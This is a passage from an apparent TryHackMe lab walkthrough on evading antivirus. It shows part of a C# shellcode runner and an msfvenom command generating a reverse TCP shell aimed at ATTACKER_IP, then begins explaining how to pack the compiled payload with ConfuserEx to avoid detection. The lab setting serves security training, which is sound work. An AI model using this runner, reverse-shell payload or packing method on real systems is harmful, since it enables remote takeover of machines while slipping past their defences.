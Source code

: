     <span class="token class-name">IntPtr</span> threadHandle <span class="token operator">=</span> IntPtr<span class="token punctuation">.</span>Zero<span class="token punctuation">;</span>
    <span class="token class-name">UInt32</span> threadId <span class="token operator">=</span> <span class="token number">0</span><span class="token punctuation">;</span>
    <span class="token class-name">IntPtr</span> parameter <span class="token operator">=</span> IntPtr<span class="token punctuation">.</span>Zero<span class="token punctuation">;</span>
    threadHandle <span class="token operator">=</span> <span class="token function">CreateThread</span><span class="token punctuation">(</span><span class="token number">0</span><span class="token punctuation">,</span> <span class="token number">0</span><span class="token punctuation">,</span> codeAddr<span class="token punctuation">,</span> parameter<span class="token punctuation">,</span> <span class="token number">0</span><span class="token punctuation">,</span> <span class="token keyword">ref</span> threadId<span class="token punctuation">)</span><span class="token punctuation">;</span>

    <span class="token function">WaitForSingleObject</span><span class="token punctuation">(</span>threadHandle<span class="token punctuation">,</span> <span class="token number">0xFFFFFFFF</span><span class="token punctuation">)</span><span class="token punctuation">;</span>

  <span class="token punctuation">}</span>
<span class="token punctuation">}</span></code></pre>
</details>

This payload takes a shellcode generated by msfvenom and runs it into a separate thread. For this to work, you'll need to generate a new  shellcode and put it into the `shellcode` variable of the code:

- **Command Prompt**        

```shell-session
C:\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
        
```

You can then compile your payload in the Windows machine using the following command:

- **Command Prompt**        

```shell-session
C:\> csc UnEncStagelessPayload.cs
        
```

Once you have a working executable, you can try uploading it to the THM Antivirus Check! page (link on the desktop). It should be  flagged by the AV immediately. Let's use a packer on the same payload and see what happens.

We will use the [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) packer for this task, as our payloads are programmed on `.NET`. For your convenience, you can find a shortcut on your desktop to it.

ConfuserEx will require you to indicate the folders in which it will  work. Be sure to select your desktop as the base directory, as shown in  the image below. Once the base directory is set up, drag and drop the  executable you want to pack on the interface, and you should end up with the following:
